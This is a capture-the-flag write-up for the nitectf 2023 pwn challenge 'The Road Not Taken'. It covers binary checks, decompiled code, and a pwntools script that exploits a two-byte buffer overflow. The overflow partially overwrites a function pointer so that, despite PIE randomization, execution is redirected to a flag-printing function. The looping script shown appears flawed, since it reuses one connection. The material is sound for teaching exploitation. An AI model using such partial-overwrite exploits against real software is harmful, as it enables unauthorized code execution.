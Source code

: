 ```yaml
---
title: The Road Not Taken
author: capang
date: 2024-01-03 09:30:00 +0800
categories: [Writeups, PWN]
tags: [nitectf 2023]
math: true
mermaid: true
---
```


# Overview

The main goal is to manipulate the execution flow by exploiting PIE randomization into calling the `right_direction` function.
## Analysis

File check

```bash
$ file the_road_not_taken1 
the_road_not_taken1: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=fbde2c5d6b8f1315d7b2634ae43d339d49aaa455, for GNU/Linux 4.4.0, not stripped
```

Security Check

```bash
checksec --file the_road_not_taken1 
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

**Key Findings**
- file is a 64bit binary
- dynamically linked -> means it will fetch libc functions
- not stripped -> functions name stays, we can see it in ghidra/ida
Security 
- no stack canary, possible buffer overflow
- PIE, address of the functions/gadgets will be randomized

**Execution Testing**

```bash
$ ./the_road_not_taken1 
Can you please lead me to the right direction to get to the flag?
yoko
This doesn't look like the right direction are u sure
```

```bash
./the_road_not_taken1 
Can you please lead me to the right direction to get to the flag?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
This doesn't look like the right direction are u sure
```

hm, no seg fault? no overflow?

**Decompiler checking**

`main function`

```
void main(void)

{
  undefined local_218 [520];
  code *local_10;
  
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  local_10 = wrongdirection;
  puts("Can you please lead me to the right direction to get to the flag?");
  read(0,local_218,0x20a);
  (*local_10)();
  return;
}

```

`wrong_direction`

```
void wrongdirection(void)

{
  puts("This doesn\'t look like the right direction are u sure");
  return;
}
```
right_direction
```
void rightdirection(void)

{
  puts("Thanks for the help");
  puts("nite{not_the_real_flag}");
  return;
}
```

There is indeed buffer overflow in the main function!
Its just damn big.

```C
undefined local_218 [520]; # buffer size 520
read(0,local_218,0x20a); # reads 0x20a = 522
```

so we can only overflow 2 bytes, not enough to replace all of the return address to go to right_direction functions

however last 2 bytes of PIE wont change 
"Due to the way PIE randomisation works, the base address of a PIE executable will **always** end in the hexadecimal characters `000`. This is because **pages** are the things being randomised in memory, which have a standard size of `0x1000`. Operating Systems keep track of page tables which point to each section of memory and define the permissions for each section, similar to segmentation.

Checking the base address ends in `000` should _probably_ be the first thing you do if your exploit is not working as you expected." from https://ir0nstone.gitbook.io/notes/types/stack/pie 

# Solution

we can find the offset of the right_direction function and put it at the end of our payload

```python
io = start()
padding = 520
right = elf.symbols.rightdirection
offset = b'A'*padding
offset = b'A'*520
payload = offset + b'\x59\x11'
io.recvline()
io.sendline(payload)
print(io.recvline())
print(io.recvline())
```

however this wont work because the offset will be added into the base address
example:
- base address = 0x11111000
- right_direction offset = 0x1000
- right_direction address = 0x11112000
To solve this we need to loop many times through the connection and get the base address fit with our payload


``` python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)
# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())
# Set up pwntools for the correct architecture
exe = './the_road_not_taken1'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
io = start()
padding = 520
right = elf.symbols.rightdirection
offset = b'A'*padding


for j in range(0,100):

    try:

        offset = b'A'*520
        payload = offset + b'\x59\x11'
        io.recvline()
        io.sendline(payload)
        print(io.recvline())
        print(io.recvline())
    except EOFError:
        pass

```

nite{R0b3rT_fro5t_ftw_32dx5hp}